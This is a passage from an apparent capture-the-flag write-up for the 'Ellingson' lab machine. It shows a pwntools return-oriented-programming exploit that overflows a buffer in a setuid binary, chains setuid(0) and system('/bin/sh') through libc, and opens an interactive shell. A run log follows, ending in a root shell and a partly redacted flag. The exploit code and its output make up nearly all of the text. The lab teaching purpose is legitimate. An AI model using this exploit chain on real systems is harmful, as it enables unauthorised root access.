print "2 - libc setuid address: " + hex(u64(libc_setuid_addr))
print "3 - libc system address: " + hex(u64(libc_system_addr))
print "4 - libc /bin/sh address: " + hex(u64(libc_binsh_addr))
payload = "A"*136 # offset to RIP
#Stage 2a - setuid(0)
payload += pop_rdi_addr # overwrite RIP
payload += null # pop 0 into RDI
payload += libc_setuid_addr # run setuid(0)
#Stage 2b - system("/bin/sh")
payload += pop_rdi_addr
payload += libc_binsh_addr # pop libc "/bin/sh" string into RDI
payload += libc_system_addr # run libc system("/bin/sh")
p.sendline(payload) # THE EXPLOIT WORKS!
# if I send "AAAA", we don't get a shell with p.interactive()
# when I send the payload, we get a shell!
#p.recvuntil("denied.")
p.interactive() # use pwntools to spawn an interactive session/shell
9) Win!
Run the exploit and go win!
root@city64:~/ctf/ellingson# python garbageRemote.py
[+] Connecting to 10.10.10.139 on port 22: Done
...
[*] margo@10.10.10.139:
Distro Ubuntu 18.04
OS: linux
Arch: amd64
Version: 4.15.0
ASLR: Enabled
[+] Starting remote process '/usr/bin/garbage' on 10.10.10.139: pid 2260
Leaked puts@GLIBC: 0x7f29fc30c9c0
Calculated addresses:
1 - libc base address: 0x7f29fc28c000
2 - libc setuid address: 0x7f29fc371970
3 - libc system address: 0x7f29fc2db440
4 - libc /bin/sh address: 0x7f29fc43fe9a
[*] Switching to interactive mode
access denied.
# $ id
uid=0(root) gid=1002(margo) groups=1002(margo)
# $ whoami
root
# $ cd /root
# $ ls
root.txt
# $ cat root.txt
1cc73a4...
# $ exit
[*] Got EOF while reading in interactive
$ exit
[*] Stopped remote process 'garbage' on 10.10.10.139 (pid 2260)
[*] Got EOF while sending in interactive